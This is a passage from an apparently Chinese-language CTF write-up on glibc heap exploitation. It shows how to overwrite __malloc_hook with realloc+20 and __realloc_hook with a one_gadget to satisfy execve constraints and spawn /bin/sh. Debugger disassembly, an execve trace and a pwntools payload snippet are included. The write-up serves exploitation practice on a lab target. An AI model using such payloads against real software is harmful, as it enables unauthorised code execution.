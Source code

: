 ### 打one_gadget

由于直接修改malloc_hook为one_gadget,由于参数 [rsp + x] x 为0x30,0x50,0x70都不能使[rsp + x]为0,也就是说在执行execve的时候,第二个参数的内容没有满足为 0,所以不能触发get shell, 需要使用 realloc_hook来进行调整rsp的偏移,进而修改[rsp + x]满足为0,而在realloc_hook处,我们可以填写reallc的地址根据push来调整rsp的偏移,达到 [rsp + x]为0, 而在执行push完之后,就先进行判断 realloc_hook是否为0,若不为0,就先执行 realloc_hook处,这时我们就可以填写one_gadget 到realloc_hook处来打one_gadget

#### realloc_hook反汇编
```
pwndbg> disass 0x7fe7cb0ea6c0
Dump of assembler code for function __GI___libc_realloc:
   0x00007fe7cb0ea6c0 <+0>:	push   r15
   0x00007fe7cb0ea6c2 <+2>:	push   r14
   0x00007fe7cb0ea6c4 <+4>:	push   r13
   0x00007fe7cb0ea6c6 <+6>:	push   r12
   0x00007fe7cb0ea6c8 <+8>:	mov    r13,rsi
   0x00007fe7cb0ea6cb <+11>:	push   rbp
   0x00007fe7cb0ea6cc <+12>:	push   rbx
   0x00007fe7cb0ea6cd <+13>:	mov    rbx,rdi
   0x00007fe7cb0ea6d0 <+16>:	sub    rsp,0x38
   0x00007fe7cb0ea6d4 <+20>:	mov    rax,QWORD PTR [rip+0x33f8f5]        # 0x7fe7cb429fd0
   0x00007fe7cb0ea6db <+27>:	mov    rax,QWORD PTR [rax]
   0x00007fe7cb0ea6de <+30>:	test   rax,rax
   0x00007fe7cb0ea6e1 <+33>:	jne    0x7fe7cb0ea8e8 <__GI___libc_realloc+552>
   0x00007fe7cb0ea6e7 <+39>:	test   rsi,rsi
   0x00007fe7cb0ea6ea <+42>:	jne    0x7fe7cb0ea6f5 <__GI___libc_realloc+53>
   0x00007fe7cb0ea6ec <+44>:	test   rdi,rdi

```
通过调试,试出了有一个one_gadget满足execve 第二个参数内容为0的条件

1. realloc_hook =  libc_base + 0xf02a4
2. malloc_hook =  realloc_addr + 20

#### execve执行情况如下

```
0x7fe7cb15715d <exec_comm+2285>    call   execve <0x7fe7cb132770>
path: 0x7fe7cb1f2d57 ◂— 0x68732f6e69622f /* '/bin/sh' */
argv: 0x7ffe640ad200 ◂— 0x0
envp: 0x7ffe640ad2c8 —▸ 0x7ffe640adfaf ◂— 'LD_PRELOAD=/lib/x86_64-linux-gnu/libc.so.6'
```

#### payload构造如下

```python
	# modify malloc_hook as one_gadget
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = lib.address + gadget[2]
	p = '\x11' * (0x13 - 8)
	p += p64(one_gadget)
	p += p64(lib.sym['realloc'] + 20) # realloc通过push个数调整rsp,从而调整execve第二个参数
	ad(0x68, p)
```
